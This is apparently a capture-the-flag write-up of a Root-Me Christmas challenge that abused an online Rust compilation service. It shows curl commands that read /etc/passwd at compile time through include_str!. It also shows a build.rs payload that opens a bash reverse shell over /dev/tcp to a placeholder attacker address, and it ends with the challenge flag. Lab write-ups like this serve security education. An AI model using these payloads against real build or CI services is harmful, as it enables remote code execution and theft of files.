



# Build & Drustroy (day4)

<p align="center"></p>

<p align="justify"> In this challenge a Rust compilator was available online; it was possible to send raw rust code to the online service which was returning a binary containing the Rust code compiled. The code was sent through JSON payload, using the following cmdline (provided with the chall). The source code of the compilator was also provided, docker file and server files also so you could have deployed the service locally : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
````
<p align="justify">I had never used Rust before, so I had to read a few doc before trying to exploit anything. After a few read, I came up with a first exploit. Actually with rust it's possible to use the macro include_str to load file/data during code compilation. So the first thing I tried was to load /etc/passwd, which was successful : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

<p align="center"></p>

<p align="justify">Afterward, I thought I would be able to load the file directly, but the name of the flag file wasn't the one provided in the source files. Since I couldn’t guess the actual name of the flag file, I decided to deploy a reverse shell. In Rust, when code is compiled using Cargo, the file build.rs is (sometimes) automatically loaded into the compilation process (it is located in the root folder of your rust project). This file is often used to generate files that you want to include in your Rust project, or to run scripts before and after compilation: </p> 

````text
project_dir/
├── Cargo.toml      
├── build.rs        
├── src/
│   ├── main.rs     
│   └── lib.rs      
└── output_dir/
````

<p align="justify">So, in the context of this challenge, it was an open door to remote code execution (RCE). As a result, I deployed a reverse shell using the following JSON payload (the reverse shell payload is available in revshell.rs in this repository):</p>

````json
{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"IP ADDR\"; let port = \"PORT\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}
````

<p align="center"></p>

<p align="justify"> For tcp tunneling I used ngrok, and after I received the remote connection I managed to print the flag : </p>

Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks _Laluka_ for tor this challenge !
